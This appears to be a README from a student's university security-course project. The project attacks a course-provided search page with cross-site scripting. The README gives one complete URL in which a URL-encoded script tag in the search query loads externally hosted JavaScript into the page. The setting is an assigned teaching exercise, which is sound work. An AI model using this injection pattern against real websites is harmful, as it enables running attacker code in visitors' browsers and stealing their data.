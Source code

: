 # CIS-331_Project2
Project 2, Part 3 of CIS-331.  Objective is to hack the site cis331.cis.upenn.edu/project2.  Externally hosting this code makes the implementation easier.

The URL to the hacked site: 
http://cis331.cis.upenn.edu/project2/search?q=%3Cscript%20src=%22https://rawgithub.com/shib340/CIS-331_Project2/master/xss_0.js%22%3E%3C/script%3E

